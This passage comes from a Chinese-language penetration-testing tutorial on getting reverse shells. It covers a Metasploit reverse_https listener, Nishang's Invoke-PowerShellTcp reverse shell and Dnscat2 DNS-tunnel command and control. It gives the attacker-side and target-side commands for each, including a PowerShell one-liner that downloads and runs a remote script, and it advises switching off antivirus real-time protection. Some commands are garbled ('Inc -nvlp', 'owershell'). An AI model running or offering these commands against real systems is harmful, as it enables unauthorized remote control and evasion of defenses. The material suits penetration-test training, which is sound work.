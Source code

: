 * 第二步


攻击机利用msf，设置监听，命令如下：

~~~bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost [攻击机ip]
set lport [port]
run
~~~

运行后，就可以收到Empire反弹回来的Shell。

6. **nishang反弹**

nishang时基于powershell的渗透测试工具，需要powershell的版本达到3.0及以上。推荐win10版本电脑或windowsserver2008以上版本服务器。
nishang框架下载地址：<https://github.com/samratashok/nishang>
由于win10自带杀毒，下载时需要关闭实时防护

**步骤**

* 第一步


攻击机：

~~~bash
Inc -nvlp [port]
~~~

* 第二步


靶机powershell里执行：

~~~bash
Invoke-PowerShellTcp -Reverse -IPAddress [攻击机ip]  -Port [port]
~~~

7. **Dnscat反弹**

Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。

github项目地址：<https://github.com/iagox86/dnscat2>

**步骤**

* 第一步


攻击机：

~~~bash
ruby dnscat2.rb --dns "domain=[dns服务器域名],host=[攻击机ip]" --no-cache -e open -e open 
~~~

* 第二步


靶机：

~~~bash
owershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain [dns服务器域名] -DNSServer [攻击机ip]
~~~
